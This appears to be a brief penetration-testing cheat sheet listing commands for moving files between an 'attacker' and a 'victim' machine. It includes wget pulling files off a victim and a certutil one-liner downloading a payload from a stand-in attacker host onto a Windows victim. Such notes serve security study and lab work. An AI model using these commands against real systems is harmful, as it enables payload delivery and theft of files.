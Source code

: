 # Useful Commands

## Linux

- Bash
  - transfer files between attacker and victim and vice versa
    - `python -m http.server 80`
      - start HTTP server in current directory
    - `python -m pyftpdlib -p 21 --write`
      - start FTP server in current directory
    - `wget http://victim-IP/path/to/file`
      - download file from victim

## Windows

- cmd
  - transfer files between attacker and victim and vice versa
    - `certutil -urlcache -f http://attacker-IP/path/to/payload payload`
      - download file to victim
    - `ftp attacker-IP`
      - connect to FTP server, to download/upload files
